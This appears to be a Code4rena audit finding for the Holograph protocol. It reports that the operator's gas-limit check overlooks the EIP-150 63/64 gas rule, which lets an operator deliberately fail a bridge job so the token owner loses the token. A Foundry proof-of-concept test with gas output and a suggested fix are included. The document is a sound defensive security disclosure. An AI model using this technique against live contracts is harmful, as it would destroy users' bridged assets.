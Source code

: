 ## Tags

- bug
- 3 (High Risk)
- disagree with severity
- primary issue
- resolved
- sponsor confirmed
- selected for report
- responded

# [Gas limit check is inaccurate, leading to an operator being able to fail a job intentionally  ](https://github.com/code-423n4/2022-10-holograph-findings/issues/176) 

# Lines of code

https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/src/HolographOperator.sol#L316


# Vulnerability details

There's a check at line 316 that verifies that there's enough gas left to execute the `HolographBridge.bridgeInRequest()` with the `gasLimit` set by the user, however the actual amount of gas left during the call is less than that (mainly due to the 1/64 rule, see below).
An attacker can use that gap to fail the job while still having the `executeJob()` function complete.


## Impact
The owner of the bridged token would loose access to the token since the job failed.

## Proof of Concept
Besides using a few units of gas between the check and the actual call, there's also a rule that only 63/64 of the remaining gas would be dedicated to an (external) function call. Since there are 2 external function calls done (`nonRevertingBridgeCall()` and the actual call to the bridge) ~2/64 of the gas isn't sent to the bridge call and can be used after the bridge call runs out of gas.


The following PoC shows that if the amount of gas left before the call is at least 1 million then the execution can continue after the bridge call fails:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

contract ContractTest is Test {
    event FailedOperatorJob(bytes32 jobHash);
    uint256 private _inboundMessageCounter;
    mapping(bytes32 => bool) private _failedJobs;
    constructor(){
        _inboundMessageCounter = 5;
    }
    function testGas64() public {
        this.entryPoint{gas:1000000}();
    }

    Bridge bridge = new Bridge();
    event GasLeftAfterFail(uint left);

    function entryPoint() public {

        console2.log("Gas left before call: ", gasleft());

        bytes32 hash = 0x987744358512a04274ccfb3d9649da3c116cd6b19c535e633ef8529a80cb06a0;

        try this.intermediate(){
        }catch{
            // check out how much gas is left after the call to the bridge failed
            console2.log("Gas left after failure: ", gasleft());
            // simulate operations done after failure
            _failedJobs[hash] = true;
            emit FailedOperatorJob(hash);
        }
        ++_inboundMessageCounter;
        console2.log("Gas left at end: ", gasleft());

    }

    function intermediate() public{
        bridge.bridgeCall();
    }
}


contract Bridge{
    event Done(uint gasLeft);

    uint256[] myArr;

    function bridgeCall() public {
        for(uint i =1; i <= 100; i++){
            myArr.push(i);
        }
        // this line would never be reached, we'll be out of gas beforehand
        emit Done(gasleft());
    }
}

```

Output of PoC:
```
  Gas left before call:  999772
  Gas left after failure:  30672
  Gas left at end:  1628
```

Side note: due to some bug in forge `_inboundMessageCounter` would be considered warm even though it's not necessarily the case. However in a real world scenario we can warm it up if the selected operator is a contract and we'er using another operator contract to execute a job in the same tx beforehand. 

Reference for the 1/64 rule - [EIP-150](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md). Also check out [evm.codes](https://www.evm.codes/#f1?fork=grayGlacier:~:text=From%20the%20Tangerine%20Whistle%20fork%2C%20gas%20is%20capped%20at%20all%20but%20one%2064th%20(remaining_gas%20/%2064)%20of%20the%20remaining%20gas%20of%20the%20current%20context.%20If%20a%20call%20tries%20to%20send%20more%2C%20the%20gas%20is%20changed%20to%20match%20the%20maximum%20allowed.).


## Recommended Mitigation Steps
Modify the required amount of gas left to gasLimit + any amount of gas spent before reaching the `call()`, then multiply it by 32/30 to mitigate the 1/64 rule (+ some margin of safety maybe).